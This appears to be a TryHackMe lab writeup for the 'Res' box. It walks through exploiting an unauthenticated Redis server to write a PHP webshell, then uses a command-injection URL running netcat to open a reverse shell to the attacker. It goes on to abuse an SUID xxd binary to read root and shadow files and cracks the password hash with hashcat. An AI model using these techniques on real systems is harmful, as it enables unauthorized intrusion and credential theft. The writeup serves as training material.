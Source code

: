 ```yaml
---
layout: post
title: THM RES  writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/res/0.head.png">
<!--more-->
<p></p>
<a href="https://tryhackme.com/room/res" target="_blank" > Click here to access this box on tryHackMe.com</a>
<hr>


<p>Let's start by enumerating the host's ports with a basic NMAP Scan.</p>
<img src="/img/res/1.nmap-scan-1.png">

<p>Only one port shows to be open. Let’s enumerate it further for version,service and os detection. </p>
<img src="/img/res/2.nmap-scan-2.png">

<p>Now let's check all 65k ports with nmap.</p>
<p>We only have two open ports. Port 80 running Apache and port 6379 running Redis db. version 6.0.7</p>
<img src="/img/res/4.nmap-scan-2.png">

<p>Navigating in a web browser to port 80 we find the default Apache web page. Let’s quickly check the source code, start up gobuster. </p>
<img src="/img/res/3.defult-apache-page.png">

<p>Nothing of interest in the default web page’s source code. Let’s get gobuster working on brute forcing sub directories</p>
<img src="/img/res/5.gobuster-start.png">

<p>while we wait on gobuster, let’s do some research on the Redis 6.0.7 db </p>


<p>After installing the redis-server on my local machine and enumerating the Redis db I discovered I could connect to the db via shell with no authentication. I also found a possible username vianka by running the info command  </p>
<img src="/img/res/6.Redis-db-enum.png">


<p>Since ssh isn’t open we’re going to need a webshell.</p>
<p> here’s a link to an article about this https://book.hacktricks.xyz/pentesting/6379-pentesting-redis  
<img src="/img/res/7.hacktricks-webshell.png">

<p>I assumed the Apache was serving the site in the default directories due to the default web page I found.In the Redis-cli I changed the dir to /var/www/html and set the db file name to shell.php</p>
<p>config set dir /var/www/html</p>
<p>config set dbfilename shell.php</p>
<p> set test "php commad here"</p>

<img src="/img/res/8.redis-commands-test-php.png">

<p>Navigating to [host ip]/redis.php  we can confirm the php is working. Now we need to upload a php reverse shell payload</p>
<img src="/img/res/9.php-test-payload.png">

<p>Let’s setup a listener with netcat on our local machine </p>
<img src="/img/res/10.setup-listner.png">

<p>Now change test to "php system get command here" using the redis-cli </p>
<img src="/img/res/12.php-oneliner.png">

<p> now we can issue command injection in the web browser</p>
<p>http://[host]/Redis.php?cmd=nc [attack machine] [port] -e /bin/sh</p>



<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">




<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">

<p>Let’s cat the user.txt file and begin eumurnating for a privilege escalation </p>
<img src="/img/res/17.cat.user.txt.png">



<p>If you run linpease there will find the xxd binary with SUID set. Let’s check GTFObins </p>
<img src="/img/res/19.gtfo.bins.png">

<p>here's how I abused the xxd binary:  </p>
<p>LFILE=/root/root.txt  </p>
<p> usr/bin/xxd "$LFILE" | xxd -r usr/bin/xxd "$LFILE" | xxd -r </p>
<img src="/img/res/18.root.txt.png">

<p>To complete the box we still need the local users password. Let’s abuse the xxd binary so we read the shadow file. Copy the users hash and try and crack it offline</p>
<img src="/img/res/20.user-hash.png">

<p>Here I used a hashcat with the rockyou password list, set the mode to 1800 and hashcat cracked the password in 5 seconds. Now we can complete this box with the user password.   </p>
<img src="/img/res/22.hashcat.png">
